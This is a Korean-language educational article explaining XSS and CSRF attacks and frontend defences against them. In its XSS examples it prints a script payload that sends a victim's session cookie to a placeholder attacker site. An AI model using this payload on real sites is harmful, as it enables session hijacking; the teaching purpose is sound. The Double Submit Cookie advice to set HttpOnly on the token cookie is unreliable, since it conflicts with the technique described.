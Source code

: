 # 1. 프론트엔드 주요 보안 이슈, XSS와 CSRF

프론트엔드 개발에서 보안은 간과하기 쉬운 영역이지만, 웹 애플리케이션의 안전성과 사용자 데이터를 보호하기 위해 필수적인 요소이다. 특히 크로스 사이트 스크립팅(XSS)과 교차 사이트 요청 위조(CSRF)는 프론트엔드에서 자주 발생하는 주요 취약점으로, 각각 브라우저와 웹사이트 간의 신뢰 관계를 악용한다는 공통점이 있다.

XSS는 "브라우저가 웹 사이트를 신뢰해서 생기는 취약점"이다. 사용자가 입력한 악성 스크립트가 브라우저에서 실행되면서, 사용자 세션 하이재킹이나 민감한 데이터 유출을 초래할 수 있다. 반면, CSRF는 "웹 사이트가 브라우저를 신뢰해서 생기는 취약점"이다. 공격자는 사용자가 인지하지 못한 상태에서 악의적인 요청을 웹 사이트로 전송하게 만들어, 사용자의 의도와 무관한 데이터 변경이나 작업이 이루어지도록 한다.

# 2. 크로스 사이트 스크립팅 (XSS)

## 2.1. XSS란?

크로스 사이트 스크립팅(XSS)은 웹 애플리케이션 보안에서 가장 흔하게 발견되는 취약점 중 하나로, 사용자 입력에 대한 적절한 검증 및 필터링이 부족할 때 발생한다. XSS는 웹 페이지에 삽입된 악성 스크립트가 브라우저에서 실행되도록 하여, 공격자가 사용자에게 부적절한 콘텐츠를 표시하거나, 사용자 권한을 가로채는 등의 악의적인 행동을 가능하게 한다. XSS는 주로 사용자가 신뢰하는 웹 사이트가 공격자의 악성 스크립트를 그대로 실행하도록 만드는 데 기인한다.

## 2.2. XSS의 공격 예시

XSS 공격은 사용자가 방문한 웹사이트에서 악성 스크립트를 실행시키는 방식으로 이루어진다. 예를 들어, 공격자가 XSS 취약점이 존재하는 블로그에 게시글이나 댓글을 작성하면서 <script>alert('해킹됨');</script>와 같은 스크립트를 삽입했다고 가정해보자. 이 경우, 다른 사용자가 해당 페이지를 방문할 때 이 스크립트가 브라우저에서 실행되어 경고 창이 표시된다. 이 단순한 예시는 공격자가 악성 코드를 사용하여 웹사이트에서 무엇이든 실행할 수 있음을 보여준다.

또 다른 예로, 한 쇼핑몰 사이트에서 리뷰 작성 기능이 있다고 가정해보자. 공격자가 리뷰 작성란에 <script>document.location='악성사이트?cookie='+document.cookie</script>와 같은 코드를 삽입한다면, 이 리뷰를 읽는 사용자의 세션 쿠키가 공격자의 사이트로 전송된다. 이 세션 쿠키를 통해 공격자는 사용자의 인증된 세션을 도용하여, 사용자의 계정에 접근하거나, 악의적인 행위를 할 수 있게 된다. 이러한 공격은 웹 애플리케이션에서 입력 데이터를 제대로 검증하지 않았을 때 발생할 수 있는 위험을 잘 보여준다.

## 2.3. XSS의 영향

XSS는 다양한 방식으로 웹 애플리케이션과 사용자의 보안을 위협한다. 가장 심각한 문제는 세션 하이재킹이다. 공격자는 사용자의 세션 쿠키를 가로채어, 사용자가 로그인한 상태를 도용할 수 있다. 이를 통해 공격자는 사용자의 권한을 무단으로 획득하여, 민감한 데이터에 접근하거나, 계정을 임의로 조작할 수 있다.

또한, XSS를 이용해 사용자의 브라우저에서 악성 코드를 실행함으로써 사용자의 시스템에 직접적인 피해를 줄 수도 있다. 예를 들어, 공격자는 XSS를 통해 키로거(Keylogger)나 피싱 공격을 실행하는 스크립트를 삽입할 수 있다. 이러한 스크립트는 사용자가 입력하는 모든 키 입력을 기록하거나, 사용자로 하여금 가짜 로그인 페이지에 로그인하도록 유도하여 자격 증명을 탈취할 수 있다.

또한, XSS는 웹 애플리케이션의 신뢰도를 심각하게 저하시킬 수 있다. 공격자가 웹 사이트에 악성 콘텐츠를 삽입하면, 사용자는 해당 사이트를 신뢰하지 않게 되고, 이는 사이트의 평판에 큰 영향을 미친다. XSS는 단순히 기술적인 문제가 아니라, 사용자와 웹 애플리케이션 간의 신뢰 관계를 훼손하는 심각한 보안 위협으로 작용한다. 이러한 이유로 XSS는 모든 웹 개발자가 반드시 이해하고, 방어해야 하는 중요한 보안 이슈이다.

## 2.4. XSS 취약점 대책

### 1. 입력 데이터의 검증

사용자 입력 데이터의 검증은 XSS 방지를 위한 가장 중요한 단계 중 하나이다. 웹 애플리케이션은 모든 사용자 입력을 신뢰해서는 안 되며, 입력된 데이터가 악의적인 의도를 가지고 있을 가능성을 항상 염두에 두어야 한다. 따라서, 모든 사용자 입력은 반드시 철저하게 검증되고, 필터링되어야 한다.

첫 번째로, 사용자 입력을 HTML 콘텐츠에 직접 삽입하기 전에 특수 문자를 이스케이프 처리해야 한다. 이는 <, >, &, ", ' 등의 특수 문자가 HTML 태그나 속성으로 인식되는 것을 방지하기 위한 조치이다. 이러한 문자가 변환되지 않고 그대로 브라우저에 전달되면, 공격자가 삽입한 스크립트가 그대로 실행될 수 있기 때문이다. 예를 들어, <script> 태그와 같은 입력이 그대로 HTML에 삽입되면, 브라우저는 이를 스크립트로 인식하고 실행하게 된다. 이스케이프 처리를 통해 이러한 입력은 단순한 텍스트로 변환되어, 스크립트가 실행되지 않게 된다.

또한, 입력 데이터의 길이와 유형을 제한하는 것도 중요하다. 예를 들어, 이메일 주소나 전화번호와 같이 명확한 형식이 필요한 입력의 경우, 정규 표현식을 사용해 입력된 데이터가 기대하는 형식에 맞는지 검증할 수 있다. 이렇게 함으로써, 공격자가 의도적으로 악성 코드를 입력하는 것을 사전에 차단할 수 있다. 또한, 필요 이상으로 긴 입력을 허용하지 않음으로써, 악의적인 스크립트가 대규모로 삽입되는 것을 방지할 수 있다.

마지막으로, 서버와 클라이언트 측에서 모두 검증을 수행하는 것이 바람직하다. 클라이언트 측 검증은 사용자 경험을 개선하고 빠른 피드백을 제공할 수 있지만, 이를 우회하는 방법이 존재하기 때문에 서버 측에서도 반드시 추가 검증이 이루어져야 한다. 서버 측 검증은 최종 방어선으로서, 클라이언트 측에서 처리되지 않은 악성 입력이 서버에 도달하는 것을 막아줄 수 있다. 이를 통해 잠재적인 XSS 공격의 위험을 최소화할 수 있다.

### 2. HTML 요소 속성의 보호

HTML 요소 속성에 사용자 데이터를 삽입할 때는 특별한 주의가 필요하다. 속성 값에 사용자 입력이 직접 삽입될 경우, 이는 XSS 공격에 노출될 수 있는 경로가 된다. 예를 들어, 사용자가 입력한 데이터가 href, src, title 등의 속성 값으로 사용될 때, 이 데이터를 반드시 따옴표로 감싸고, 이스케이프 처리를 통해 특수 문자가 코드로 실행되지 않도록 해야 한다. 이를 통해 공격자가 악의적인 스크립트를 삽입하는 것을 효과적으로 방지할 수 있다.

특히 href 속성의 경우, 사용자가 입력한 URL이 http:나 https:로 시작하는지 확인해야 한다. 이를 통해 javascript:와 같은 악성 스키마가 사용되지 않도록 할 수 있다. 속성 값에 삽입되는 모든 입력 데이터는 신뢰할 수 없는 사용자로부터 입력된 것이므로, 철저한 검증과 필터링이 필요하다.

### 3. DOM 조작 보호

DOM 조작 시에도 XSS 공격에 대한 방어가 중요하다. 사용자의 입력을 동적으로 HTML 요소에 삽입할 때, innerHTML과 같은 메서드는 가능한 한 사용하지 않아야 한다. 이 메서드는 입력된 HTML 코드가 그대로 파싱되어 실행되기 때문에, 악의적인 스크립트가 포함될 수 있다. 대신, appendChild, textContent, createElement 등의 메서드를 사용해 DOM을 조작하는 것이 안전하다.

이러한 메서드는 입력된 데이터를 단순한 텍스트로 처리하거나, 요소를 명확하게 생성해 삽입하기 때문에, 공격자가 악성 스크립트를 주입하는 것을 방지할 수 있다. 또한, DOM 조작 과정에서 사용자 입력이 HTML 속성에 들어가는 경우, 반드시 앞서 언급한 대로 이스케이프 처리와 검증을 수행해야 한다. 이렇게 하면 동적으로 생성된 콘텐츠도 안전하게 렌더링할 수 있다.

### 4. Content Security Policy(CSP) 적용

Content Security Policy(CSP)는 XSS와 같은 공격을 방지하기 위한 강력한 보안 메커니즘이다. CSP는 웹 애플리케이션이 실행할 수 있는 콘텐츠의 출처를 제어하여, 악의적인 스크립트가 브라우저에서 실행되는 것을 차단한다. 이를 통해 개발자는 자신이 신뢰하는 출처에서만 스크립트를 불러올 수 있도록 제한할 수 있으며, 인라인 스크립트나 외부 소스에서 로드되는 스크립트의 실행을 막을 수 있다.

CSP를 적용할 때는 'unsafe-inline'과 같은 비안전한 지시자를 사용하지 않는 것이 중요하다. 대신 nonce-source나 hash-source를 사용하여 인라인 스크립트가 허용될 때도 안전하게 실행되도록 설정할 수 있다. 또한, 특정 리소스 유형에 대해 script-src, style-src, img-src 등의 지시자를 설정하여, 신뢰할 수 있는 출처에서만 해당 리소스를 로드하게끔 제어할 수 있다. 이를 통해 XSS를 포함한 다양한 코드 인젝션 공격을 예방할 수 있다.

CSP는 테스트와 모니터링을 통해 지속적으로 개선되어야 한다. 초기에는 'Report-Only' 모드를 사용하여 CSP 설정이 제대로 작동하는지 확인하고, 문제점을 파악한 후에 실제 정책을 적용하는 것이 좋다. 또한, CSP는 설정 후에도 공격 시도가 발생할 경우 보고서를 수집하여, 새로운 위협에 대응할 수 있도록 지속적으로 관리해야 한다. 이렇게 함으로써, 웹 애플리케이션의 보안을 한층 강화할 수 있다.

### 5. XSS 예방 라이브러리 사용

XSS를 효과적으로 방어하기 위해서는 검증된 라이브러리를 사용하는 것이 중요하다. DOMPurify와 같은 라이브러리는 사용자가 입력한 데이터를 철저히 필터링하여, 잠재적으로 위험한 HTML 태그와 속성을 제거함으로써 XSS 공격을 방지한다. 이 라이브러리는 사용하기 간편하면서도 강력한 보호 기능을 제공하여, 개발자가 안전하게 사용자 콘텐츠를 처리할 수 있도록 돕는다.

DOMPurify는 다양한 설정 옵션을 제공하여 개발자가 애플리케이션의 요구에 맞게 필터링 규칙을 커스터마이즈할 수 있다. 예를 들어, 특정 태그나 속성만 허용하거나, 스크립트와 같이 악성 코드가 포함될 수 있는 요소를 완전히 제거하는 식으로 설정할 수 있다. 이를 통해 애플리케이션의 보안 수준을 높이고, 사용자가 악의적인 입력을 통해 시스템에 해를 끼치는 것을 방지할 수 있다.

최신 웹 브라우저에서 제공하는 Sanitizer API를 활용하는 것도 좋은 방법이다. Sanitizer API는 브라우저 내장 보안 기능으로, XSS와 같은 보안 위협으로부터 사용자를 보호하기 위해 고안되었다. 이 API는 브라우저 레벨에서 콘텐츠를 안전하게 처리하며, 사용자 입력을 DOM에 삽입하기 전에 자동으로 검증한다. 이러한 도구를 활용하면, 개발자는 XSS와 같은 취약점을 보다 효과적으로 방어할 수 있다.

# 3. 교차 사이트 요청 위조 (CSRF)

## 3.1. CSRF란?

교차 사이트 요청 위조(CSRF)는 사용자가 신뢰하는 웹사이트에 대해, 사용자의 의도와는 다른 악의적인 요청을 수행하도록 유도하는 공격 기법이다. 이 공격은 사용자가 웹사이트에 이미 로그인된 상태에서 발생하며, 공격자가 사용자의 브라우저를 통해 웹사이트로 요청을 전송하게 만들어 서버가 이를 정상적인 요청으로 처리하도록 만든다. 결과적으로, 서버는 이러한 요청을 신뢰된 사용자로부터 온 것이라 간주하고, 사용자의 권한 하에 민감한 작업을 수행하게 된다.

CSRF 공격은 웹사이트가 사용자의 브라우저를 신뢰하는 점을 악용한다. 예를 들어, 사용자가 인터넷 뱅킹에 로그인한 상태에서 공격자가 준비한 악성 웹 페이지를 방문하면, 그 페이지는 사용자의 브라우저를 통해 이체 요청을 자동으로 전송할 수 있다. 이 과정에서 사용자는 자신의 계좌에서 돈이 이체된다는 사실을 전혀 인지하지 못한다. 이러한 공격은 사용자가 특정한 행동을 취하지 않더라도, 단순히 악성 페이지를 방문하거나, 공격자가 만든 링크를 클릭하는 것만으로도 실행될 수 있다.

## 3.2. CSRF의 공격 예시

CSRF 공격의 한 예시는 사용자가 이미 로그인된 상태에서 특정 웹사이트의 악성 링크를 클릭하는 상황이다. 예를 들어, 공격자는 사용자가 자주 방문하는 포럼에 악성 링크를 게시할 수 있다. 이 링크는 사용자가 클릭하는 즉시, 그의 브라우저를 통해 인터넷 뱅킹 사이트에 자동 이체 요청을 보낸다. 사용자는 이 요청이 자신도 모르게 실행되었기 때문에, 자신의 계좌에서 자금이 이체되는 사실을 알지 못한다. 이처럼 CSRF 공격은 사용자의 인증 상태를 악용하여 의도하지 않은 작업을 수행하게 만든다.

또 다른 예시로는, 공격자가 조작한 이메일 링크를 통해 CSRF를 실행하는 경우가 있다. 사용자가 링크를 클릭하면, 해당 링크는 사용자가 로그인된 상태인 전자 상거래 사이트에서 자동으로 주문을 생성하거나, 배송 주소를 변경하는 요청을 보낸다. 사용자는 이러한 변경 사항을 인지하지 못하고, 주문이 잘못된 주소로 배송되는 등 큰 피해를 입을 수 있다. 이러한 공격은 사용자가 자신의 브라우저에서 실행되는 모든 요청을 신뢰할 수 없다는 점을 명확히 보여준다.

## 3.3. CSRF의 영향

CSRF는 사용자의 개인 정보와 자산을 심각하게 위협할 수 있는 취약점이다. 공격자는 CSRF를 통해 사용자가 의도하지 않은 작업을 수행하게 만들 수 있으며, 이는 웹 애플리케이션의 기능과 데이터 무결성에 큰 영향을 미친다. 예를 들어, 금융 서비스에서 CSRF 공격이 발생할 경우, 사용자의 자금이 무단으로 이체되거나, 중요한 계좌 정보가 변경될 수 있다. 이러한 피해는 경제적인 손실로 직결될 뿐만 아니라, 사용자의 신뢰를 완전히 잃게 만드는 원인이 된다.

또한, CSRF는 소셜 미디어나 이메일 서비스에서도 큰 영향을 미칠 수 있다. 공격자는 CSRF를 통해 사용자의 계정으로 무단 게시물을 작성하거나, 사용자 모르게 비밀번호를 변경하여 계정을 탈취할 수 있다. 이로 인해 사용자는 자신의 온라인 정체성을 잃거나, 원치 않는 콘텐츠가 자신의 이름으로 퍼지게 되는 상황에 직면할 수 있다. 이러한 결과는 단순히 개인적인 피해를 넘어서, 사회적 신뢰와 평판에도 심각한 영향을 미친다. CSRF의 피해는 눈에 보이지 않게 누적되며, 문제를 인지한 후에는 이미 큰 피해가 발생한 경우가 많아, 이에 대한 예방이 무엇보다 중요하다.

## 3.4. CSRF 취약점 대책

### 1. CSRF 토큰 사용

CSRF 방어의 핵심 전략 중 하나는 원타임 토큰(One-Time Token)을 활용하여 요청과 서버 간의 일치 여부를 검증하는 것이다. 이 토큰은 서버가 사용자 세션에 고유하게 생성한 값으로, 각 요청마다 포함되어야 한다. 서버는 요청을 처리하기 전에 이 토큰이 유효한지 확인한다. 이를 통해 서버는 요청이 사용자의 브라우저에서 직접 발생했는지, 또는 외부에서 조작된 것인지를 검증할 수 있다.

CSRF 토큰은 주로 폼에 숨김 필드로 포함된다. 사용자가 폼을 제출하면, 토큰이 함께 전송되어 서버에서 검증된다. 이렇게 함으로써 공격자가 외부에서 동일한 요청을 모방하더라도, 유효한 토큰이 없으면 요청이 처리되지 않는다. 이는 사용자가 정상적인 경로를 통해 요청을 보냈는지를 확인하는 중요한 보안 절차이다.

이 토큰은 단순한 값이 아니라, 복잡하고 예측 불가능한 값이어야 하며, 매 세션마다 변경되는 것이 바람직하다. 세션이 시작될 때마다 새로운 토큰이 생성되거나, 각 요청 시마다 새롭게 발급되어야 한다. 이렇게 하면 공격자가 특정 토큰을 획득하더라도 이를 재사용할 수 없게 되어, CSRF 공격의 성공 가능성을 크게 낮출 수 있다. 이는 CSRF 공격을 방지하는 데 있어 중요한 보안 계층을 추가하는 역할을 한다.화할 수 있다.

### 2. SameSite Cookie 속성 사용

CSRF 공격을 방지하는 또 다른 중요한 방법은 쿠키의 SameSite 속성을 사용하는 것이다. 이 속성은 쿠키가 요청과 함께 전송되는 방식을 제어하여, 교차 사이트 요청이 쿠키를 포함할 수 없도록 제한한다. SameSite 속성은 Lax, Strict, 또는 None으로 설정할 수 있으며, 기본적으로는 Lax로 설정하여 대부분의 경우에 안전한 보호를 제공한다.

SameSite=Lax는 사용자가 링크를 클릭하거나 GET 요청을 통해 사이트를 탐색할 때 쿠키가 전송되도록 허용하지만, POST 요청과 같은 민감한 작업에는 쿠키가 포함되지 않도록 한다. 이는 사용자가 외부 사이트에서 특정 링크를 클릭하는 일반적인 사용 사례를 보호하면서도, CSRF 공격의 가능성을 줄이는 데 효과적이다. SameSite=Strict로 설정하면, 모든 외부 요청에 대해 쿠키가 전송되지 않아, CSRF 공격에 대한 보호가 더욱 강화된다.

하지만, SameSite=Strict는 사용자 경험에 영향을 미칠 수 있어, 모든 상황에서 적합하지는 않다. 반면, SameSite=Lax는 보안과 사용자 경험의 균형을 잘 맞추는 옵션으로, 대부분의 웹 애플리케이션에서 권장된다. 특정 상황에서는 SameSite=None을 사용하여 쿠키가 교차 사이트 요청에서도 전송되도록 설정할 수 있지만, 이 경우 반드시 Secure 속성도 함께 사용하여 HTTPS 연결에서만 쿠키가 전송되도록 해야 한다. 이를 통해 CSRF 공격에 대한 강력한 방어를 유지하면서도, 필요한 경우 유연성을 제공할 수 있다.

### 3. Double Submit Cookie 기법

Double Submit Cookie 기법은 CSRF 공격을 방어하기 위한 효과적인 방법 중 하나로, CSRF 토큰을 두 번 제출하는 방식을 사용한다. 이 기법에서는 서버가 사용자의 브라우저에 CSRF 토큰을 포함하는 쿠키를 발급하고, 클라이언트는 이 토큰을 폼 데이터나 요청 헤더에 포함시켜 서버에 다시 전송한다. 서버는 요청이 들어오면, 쿠키에 저장된 토큰과 폼이나 헤더에 포함된 토큰이 일치하는지 확인한다.

이 방법은 서버가 CSRF 토큰을 관리하는 방식과 달리, 쿠키와 폼 데이터 간의 일치 여부를 검사하여 CSRF 공격을 방어한다. 공격자는 CSRF 토큰이 포함된 쿠키를 위조할 수 없으며, 일치하는 토큰 값을 알지 못하기 때문에, 이 기법은 CSRF 공격을 효과적으로 차단한다. 또한, 이 기법은 서버 측에서 특별한 상태 정보를 유지할 필요가 없어 구현이 비교적 간단하다.

하지만 Double Submit Cookie 기법은 쿠키의 보안 설정이 중요하다. 쿠키가 JavaScript에서 접근 가능하지 않도록 HttpOnly 속성을 사용해야 하며, Secure 속성을 통해 HTTPS 연결에서만 쿠키가 전송되도록 설정해야 한다. 이러한 보안 설정을 통해 쿠키가 클라이언트 측에서 노출되는 것을 방지하고, CSRF 공격에 대한 방어력을 더욱 강화할 수 있다.

### 4. 출처 검증

 CSRF 공격을 방지하는 또 다른 중요한 방법은 출처 검증(Origin Verification)이다. 출처 검증은 서버가 요청의 출처(Origin)와 Referer 헤더를 확인하여, 요청이 신뢰할 수 있는 출처에서 온 것인지 판단하는 방식이다. 웹 브라우저는 요청을 보낼 때 출처와 Referer 헤더를 자동으로 포함시키며, 서버는 이를 바탕으로 요청의 유효성을 검사할 수 있다.

출처 검증은 특히 중요한 작업에서 유용하다. 예를 들어, 민감한 데이터 수정이나 결제 요청과 같은 작업에서 출처가 올바른지 확인함으로써, 외부 사이트에서 발생한 의도하지 않은 요청을 차단할 수 있다. 이 방법은 CSRF 공격을 사전에 방어하는 강력한 수단이 된다.

이 방식의 핵심은, 서버가 허가된 출처 리스트를 유지하고, 그 리스트에 포함되지 않은 출처에서 온 요청은 모두 거부하는 것이다. 이를 통해, 공격자가 임의의 사이트에서 보내는 CSRF 요청이 효과를 발휘하지 못하도록 막을 수 있다. 그러나, Referer 헤더는 일부 환경에서 제거되거나 수정될 수 있으므로, 출처 검증은 CSRF 방어 전략의 하나로 사용되며, 다른 방법들과 함께 적용하는 것이 권장된다.
